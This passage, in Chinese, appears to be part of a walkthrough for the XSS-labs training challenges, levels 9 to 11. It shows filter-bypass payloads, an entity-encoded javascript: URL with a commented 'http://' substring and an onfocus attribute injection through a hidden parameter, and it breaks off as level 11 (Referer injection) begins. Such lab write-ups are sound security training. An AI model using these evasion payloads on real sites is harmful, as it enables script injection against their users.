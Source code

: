 9.level9多加一个检查是否含有`http://`子串
![php代码](./xss_fig/xss-labs-level9.png)
在`payload`后面加上`http://`子串再注释掉即可

`java&#115;cript:alert();/* http:// */`

10.level10通过隐藏参数传参，并过滤`<`,`>`
![php代码](./xss_fig/xss-labs-level10.png)
利用`onfocus`事件和`type="text"`使输入框显形，`payload`如下

`?keyword=test&t_sort=" onfocus="alert();" type="text`

11.level11通过http请求头的`referer`进行传参
